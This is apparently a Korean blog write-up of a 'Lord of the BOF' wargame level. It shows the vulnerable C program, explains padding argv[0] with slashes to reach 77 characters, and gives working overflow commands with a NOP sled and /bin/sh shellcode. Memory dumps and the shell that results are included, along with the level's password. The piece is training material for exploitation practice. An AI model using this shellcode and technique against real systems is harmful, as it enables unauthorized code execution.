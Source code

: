 ```yaml
---
title: "BOF - Lv.7 darkelf"
excerpt: "Lv.7 darkelf"
toc: true
toc_sticky: true
categories:
  - BOF
tags:
  - buffer overflow
---
```


## 1. Source Code
```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - orge
        - check argv[0]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // here is changed!
        if(strlen(argv[0]) != 77){
                printf("argv[0] error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```
## 2. Vulnerability
wolfman과 다른점은 코드를 보면 argv[0]의 길이가 77이어야 한다. argv[0]은 파일경로임. argv[0]을 출력해보려고 file 실행파일을 만들어서 보니 argv[0]: ./file 이라고 나옴.  
그런데 Linux에서는 .////////file 이렇게 해도 실행이 되고 argv[0]도 그럼 .////////file 이렇게 나올거임. 이를 이용해서 문제를 해결.

## 3. Solution
.+'/'*72+orge(5)=77 -> .////////////////////////////////////////////////////////////////////////orge  
우선 test파일을 만들어서 argv[2] 주소를 보면 0xbffffb24부터 값이 들어가 있음. 리턴주소로 0xbffffb30으로 하겠음.
```
.////////////////////////////////////////////////////////////////////////test `python -c 'print "A"*44+"BBB\xbf"'` `python -c 'print "C"*100'`
0xbffffaf0:     0x00747365      0x41414141      0x41414141      0x41414141
0xbffffb00:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffb10:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffb20:     0xbf424242      0x43434300      0x43434343      0x43434343
0xbffffb30:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffb40:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffb50:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffb60:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffb70:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffb80:     0x43434343      0x43434343      0x00000043      0x00000000
0xbffffb90:     0x00000000      0x00000000      0x00000000      0x00000000
``` 
Segmentation fault (core dump)가 되서 다시 확인해보니 리턴주소가 달라져서 다시 설정함. 0xbffffb3c
```
.////////////////////////////////////////////////////////////////////////test `python -c 'print "A"*44+"\x80\xfb\xff\xbf"'` `python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
0xbffffacc:     0x2f2f2f2f      0x2f2f2f2f      0x65742f2f      0x41007473
0xbffffadc:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffaec:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffafc:     0x41414141      0x41414141      0x80414141      0x00bffffb
0xbffffb0c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb1c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb2c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb3c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb4c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb5c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb6c:     0x90909090      0x6850c031      0x68732f2f      0x69622f68
```
바꾼 주소로 해보니 잘 되서 실제파일에도 공격해서 성공.
```
.////////////////////////////////////////////////////////////////////////orge `python -c 'print "A"*44+"\x3c\xfb\xff\xbf"'` `python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA<▒▒▒
bash$ my-pass
euid = 507
timewalker
```
my-pass : timewalker